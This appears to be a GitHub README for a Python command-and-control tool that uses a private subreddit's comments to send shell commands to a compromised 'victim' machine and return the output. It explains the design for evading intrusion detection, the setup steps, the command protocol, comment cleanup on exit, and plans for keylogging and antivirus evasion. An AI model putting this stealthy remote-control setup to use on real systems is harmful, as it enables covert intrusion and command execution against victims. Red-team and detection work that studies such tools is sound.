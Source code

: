 # Python Reddit CnC
A Python based Reddit CnC

## Why Reddit?
I wanted to create a Python based shell that would be very hard to differentiate from legitimate traffic. The first project I made was a Python HTTPS shell that would generate noise to reddit.com but this would still need a self-signed certificate which would cause IDS to trigger on the invalid certificate associated with the displayed domain (reddit.com). After brainstorming for a while and letting colleagues of mine analyze the PCAP, I remembered the Turla CnC which made use of Instagram comments, found the [PRAW](https://praw.readthedocs.io/en/latest/) library and [a Reddit comment bot](https://github.com/yashar1/reddit-comment-bot). The result of all these inspirations is shown in the scripts.

I hope that this tool will prove useful in pentesting, red-teaming, CTF, etc.

## How it works
The attacker creates a subreddit (preferably a private one), this subreddit will serve as the place for the attacker to execute the commands and the victim to post the output of the executed command. This can be summarized as follows:
* Attacker creates a post on the subreddit and notes the ID of this post
* Attacker starts the Reddit CnC with the following parameters: username, password, client-id, client-secret, subreddit and post-id
* The CommandCenter places a "start" string and waits for the "ready" comment of the victim
* When the victim script starts it looks for the "start" string and places a "ready" comment
* The attacker parses the "ready" comment and places the "exec whoami" comment to issue a whoami command to the victim
* The victim responds with "result [user id]"
* The attacker parses the comment by verifying that the comment ID does not exists in the list with parsed comment ID's
* Result gets displayed on the terminal of the attacker

After issuing the "exit" command by the attacker, the victim will delete all the comments in the Reddit post.

## Requirements
* [Python](https://www.python.org/downloads/)
* [PRAW](https://praw.readthedocs.io/en/latest/) - Python Reddit API Wrapper
* [DNSPython](http://www.dnspython.org/) - Python DNS toolkit
* A **Reddit** account

## Setup
### Reddit
**Setting up the Reddit account details**
* [Navigate to the Reddit Apps page ](https://www.reddit.com/prefs/apps/)
* Click *create an app*
* **name:** Set a name for your app
* **type:** Script
* **description:** Optional
* **about url:** Optional
* **redirect uri:** http://localhost:8080
* Write down the *client id* and *secret*

**Setting up the subreddit**
* [Create a subreddit](https://www.reddit.com/subreddits/create)
* **name:** Set a name for your subreddit
* **title:** Set a title for your subreddit
* **description:** Optional
* **sidebar:** Optional
* **Posttext:** Optional
* **language:** [ko]
* **type:** this can be anything you want, if you want to go for stealth I suggest setting this to "private"
* **content options:** Optional
* **wiki:** Optional
* **spamfilter:** I suggest setting this to low, I have not tested if it deletes comments when issuing a lot of commands
* **other options:** Leave default
* **mobile looks:** really?
* **Press create**

* Create a first post, the content doesn't matter
* Write down the ID of the post displayed in the URL

## Usage
**Attacker**
```sh
$ python reddit_command.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

**Victim**
```sh
$ python reddit_slave.py --username [username] --password [password] --client-id [client ID] --client-secret [client secret] --subreddit [subreddit you created] --post-id [ID of the post in the subreddit]
```

## Future improvements
* Add keylogger/clipboardlogger option
* Hide the victim script inside an executable with antivirus/endpoint protection/solution evasions

## Acknowlegdements
* Idea based on the [Reddit Comment Bot](https://github.com/yashar1/reddit-comment-bot)

